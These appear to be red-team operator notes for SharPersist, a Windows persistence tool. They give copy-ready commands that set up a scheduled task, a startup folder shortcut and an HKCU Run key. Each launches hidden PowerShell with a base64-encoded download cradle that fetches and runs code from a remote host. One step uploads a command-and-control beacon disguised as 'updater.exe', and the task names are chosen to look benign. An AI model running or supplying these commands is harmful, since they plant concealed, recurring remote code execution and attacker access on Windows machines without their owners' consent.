 # SharPersist

## Commands
``````
`-t` is the desired persistence technique.
`-c` is the command to execute.
`-a` are any arguments for that command.
`-n` is the name of the task.
`-m` is to add the task (you can also `remove`, `check` and `list`).
`-o` is the task frequency.

Startup Folder
`-f` is the filename to save as.

RunKey
`-k` is the registry key to modify.
`-v` is the name of the registry key to create.
``````

## [[Priv Esc/Scheduled Tasks]]
Create a scheduled task with:
* Powershell x64 bit
* Name: Updater
* hourly execute
``````powershell
$str = 'IEX ((new-object net.webclient).downloadstring("http://10.10.5.120/a"))'

[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))

execute-assembly C:\Tools\SharPersist\SharPersist\bin\Debug\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==" -n "Updater" -m add -o hourly
``````

## [[Startup Folder]]
Add to startup folder
Creates a file called UserEnvSetup in the folowing path:
`%appdata%\Microsoft\Windows\Start Menu\Programs\Startup\UserEnvSetup.lnk`

⚠ Consider the spaces in "Start Menu"

``````powershell 
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Debug\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==" -f "UserEnvSetup" -m add
``````

## [[Startup Folder]]
Create a new regkey with:
* Registry key name: Updater
* Registry key to modify: hkcurun | hkcurunonce (`HKCU\Software\Microsoft\Windows\CurrentVersion\Run`)

``````powershell
cd C:\ProgramData
upload C:\Payloads\beacon-http.exe
mv beacon-http.exe updater.exe
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Debug\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
``````

```meta
requirements: 
results: persistence
opsec: 
oss: #win 
source: https://github.com/mandiant/SharPersist
description: Windows persistence toolkit written in C#
```
